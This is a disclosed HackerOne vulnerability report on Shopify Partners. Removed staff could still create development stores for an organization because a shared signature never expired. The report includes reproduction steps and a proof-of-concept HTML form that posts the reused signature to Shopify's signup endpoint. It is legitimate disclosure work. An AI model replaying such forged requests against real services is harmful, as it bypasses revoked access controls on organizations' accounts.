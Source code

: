 # Removed staff members who had "Manage shops" permission can still create development stores

## Report Details
- **Report ID**: 254588
- **URL**: https://hackerone.com/reports/254588
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-07-29T09:06:43.903Z
- **Disclosed**: 2019-11-08T11:03:31.353Z

## Reporter
- **Username**: zombiehelp54
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Details: 
It's been found that staff members of an organization in partners.shopify.com can have a permission to manage shops and those with that permission can create development stores that will be associated with the organization.

When a staff member tries to create a development store, a POST request is sent to `https://app.shopify.com/services/signup/setup` with the parameter `extra[affiliate_shop]` as the signature used to link the shop with the partners account.

It's been found that this signature is the same for all staff members of the same organization and it doesn't expire which means that if a staff member had "Manage Shops" permission for only one time, then he was removed from the organization he will still be able to create development stores associated with the organization and they will appear in `https://partners.shopify.com/[id]/development_stores` for organization members. 

## Steps to reproduce: 
1. Add a new staff member to your organization with "Manage Shops" permission. 
2. Login with the staff member you just added then navigate to `https://partners.shopify.com/641767/development_stores/new` and grab the value of `extra[affiliate_shop]` parameter from the source of the page.
3. Through the owner account remove the user's access to the organization. 
4. Through the new staff member who no longer has access submit the following HTML form: 

```
<form action="https://app.shopify.com/services/signup/setup" method=post>
<input name="utf8" value="Γ£ô">
<input name="authenticity_token" value="67uDHcA5IBtc1CRcl3teDJND+2w8ahtpbNo4aux93TfHq0MkadWVOPG0h/8Z+jjcWpXw96fX1BbnYTLiG9aqDw==">
<input name="signup[shop_name]" value="NewStoreTestTest1234">
<input name="signup[email]" value="testmahmoud16+2@gmail.com">
<input name="signup[password]" value="P@ssw0rd">
<input name="signup[confirm_password]" value="P@ssw0rd">
<input name="signup_types" value="affiliate_shop">
<input name="signup_source" value="development+shop">
<input name="signup_source_details" value="">
<input name="extra[affiliate_shop]" value="[SIGNATURE]">
<input name="signup[address1]" value="testxx">
<input name="signup[city]" value="test'ad">
<input name="signup[zip]" value="">
<input name="signup[province]" value="DK">
<input name="signup[country]" value="EG">
<input type=submit>
</form>
```
*Replace the value of `extra[affiliate_shop]` with the one you got through the staff member*

5. Navigate to `https://partners.shopify.com/[id]/development_stores` through the owner account and you'll see the new store added to the organization even though the staff member no longer has access.

Thanks!

## Attachments
No attachments
